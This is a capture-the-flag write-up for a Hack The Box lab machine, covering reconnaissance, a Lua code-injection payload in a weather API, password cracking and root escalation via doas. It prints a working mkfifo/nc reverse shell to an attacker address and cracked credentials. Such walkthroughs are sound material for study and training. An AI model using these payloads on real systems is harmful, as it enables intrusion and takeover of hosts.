 # Box 



![image-20201227163341829](img/image-20201227163341829.png)

https://www.hackthebox.eu/home/machines/profile/302

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC --top-ports 1000 -oN scan 10.10.10.218
```

![image-20201227164443318](img/image-20201227164443318.png)

We are going to enumerate the first website on the port 80 :

```bash
gobuster dir -e -u http://10.10.10.218/ -w /usr/share/wordlists/dirb/big.txt
```

![image-20201227194519053](img/image-20201227194519053.png)

The only wile we find is the robots.txt, let's see what's inside : 

![image-20201227194554318](img/image-20201227194554318.png)

Well, it seems we have a /weather page. 

Let's enumerate that new page : 

```bash
gobuster dir -e -u http://10.10.10.218/weather/ -w /usr/share/wordlists/dirb/big.txt
```

![image-20201227194652486](img/image-20201227194652486.png)

We have a new page /forecast :

![image-20201227194741559](img/image-20201227194741559.png)

It seems that we can have some info about cities. Let's try London : 

![image-20201227194825112](img/image-20201227194825112.png)

We got some data.

I've done a POC on my local machine to see If I can inject a new key on the json which I suceeded :

```
fezef\",\"test\":\"<script>window.location = \'http://10.10.14.28:8000\'<script>
```



![image-20201228104433864](img/image-20201228104433864.png)

Now I have to figure out how to inject code.

I've also found a path by triggering an error on the webpage : 

![image-20201228122423496](img/image-20201228122423496.png)

After a  while I found a way to inject code : 

![image-20201228135512095](img/image-20201228135512095.png)

Before working on the exploit, let's take a look at the other website.

We also need to login to see the webpage. The page says "default" so I tried default user & password, at first it didn't work with "admin" and then I tried to bruteforce "user" with hydra and we got a successful login. 

![image-20201228134159408](img/image-20201228134159408.png)

In this website we can see :

![image-20201228134225479](img/image-20201228134225479.png)

The only page which is interesting for us is "processes" :

```bash
r /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 
_httpd       394  0.0  0.0  34956  2020 ?     Is    4:37PM 0:01.86 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www 
root         396  0.0  0.0  21888  1648 ?     Ss    4:37PM 0:00.22 /usr/sbin/cron 
_httpd     21908  0.0  0.0  12616   520 ?     O     1:41PM 0:00.00 /usr/bin/egrep ^USER| \\[system\\] *$| init *$| /usr/sbin/sshd *$| /usr/sbin/syslogd -s *$| /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 *$| /usr/sbin/cron *$| /usr/sbin/powerd *$| /usr/libexec/httpd -u -X -s.*$|^root.* login *$| /usr/libexec/getty Pc ttyE.*$| nginx.*process.*$ 
root         111  0.0  0.0  19780  1588 ttyE1 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE1 
root         389  0.0  0.0  19780  1588 ttyE2 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE2 
root         433  0.0  0.0  19784  1588 ttyE3 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE3 
```

Here we discover the user "r.michaels"

Let's get back to our previous page.

## Exploitation

I have tried a typical reverse_shell using /dev/tcp and nc but it doesn't work so after I've tried : 

I also used https://meyerweb.com/eric/tools/dencoder/ to encode my strings.

Reverse  shell : 

````bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 1234 >/tmp/f
````

Entire payload : 

```bash
ff');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 1234 >/tmp/f");--t
```



which works ! 

![image-20201228140029653](img/image-20201228140029653.png)

I have found a password in sha_1 so i'll try to crack it

![image-20201228142053802](img/image-20201228142053802.png)

We found a password encrypted. I used hashcat on another machine to crack it :

````
hashcat --force -m 500 -a 0  -o found.txt --remove  hash.txt rockyou.txt
````

which gave me :

```
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

## Post-Exploitation



### User



​	Well, here we can see the user r.michaels launching the same script that our user is launching. It does mean there is a weather on the port 3001.

​														![image-20201228165800911](img/image-20201228165800911.png)

​											

![image-20201228165835784](img/image-20201228165835784.png)



I've found a CVE that we can use to read the user directory (https://www.cvedetails.com/cve/CVE-2010-2320/)



![image-20201228165552983](img/image-20201228165552983.png)



![image-20201228165515186](img/image-20201228165515186.png)

We know have access to user  ! 

### Root

In the /home folder we can find some interesting files, firstly we can see a backup tar file which is encrypted  :

![image-20201228183857655](img/image-20201228183857655.png)

and we also have a .gnufolder which contains keys that I guess are to decrypt this file : 

![image-20201228184001108](img/image-20201228184001108.png)

It seems that we have netpgp. Let's try to decrypt it :

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output ../.gnupg/file.tar 
```

![image-20201228184058703](img/image-20201228184058703.png)

It seems to be working ! Let's get our files from the tar : 

![image-20201228184206906](img/image-20201228184206906.png)

We can see that we have a new .htpasswd 

![image-20201228184311182](img/image-20201228184311182.png)

We have a new hash to crack. Hashcat cracked it and we now have a new passord `littlebear` for the webapi_user

So now we need to login as root, unfortanely it doesn't work su.

![image-20201228193205217](img/image-20201228193205217.png)

After a bit of research, we find a command that suits us perfectly (https://ftp.netbsd.org/pub/pkgsrc/current/pkgsrc/security/doas/README.html) : 

```bash
doas root /bin/sh
```

![image-20201228193321585](img/image-20201228193321585.png)
